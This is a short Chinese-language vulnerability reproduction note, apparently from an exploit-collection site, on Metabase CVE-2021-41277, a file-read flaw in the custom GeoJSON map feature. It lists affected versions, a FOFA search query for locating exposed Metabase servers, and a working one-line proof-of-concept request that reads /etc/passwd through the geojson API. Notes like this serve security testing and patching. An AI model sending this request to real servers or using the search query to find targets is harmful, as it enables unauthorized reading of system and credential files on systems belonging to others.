 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

<a-checkbox checked>metabase version < 0.40.5</a-checkbox></br>

<a-checkbox checked>metabase version >= 1.0.0, < 1.40.5</a-checkbox></br>

## FOFA

<a-checkbox checked>app="metabase"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347.png)

验证POC

```python
/api/geojson?url=file:/etc/passwd
```

![img](../../../.vuepress/public/img/1637464214932-3531a00c-8968-4104-9f6d-a0962cdef98e.png)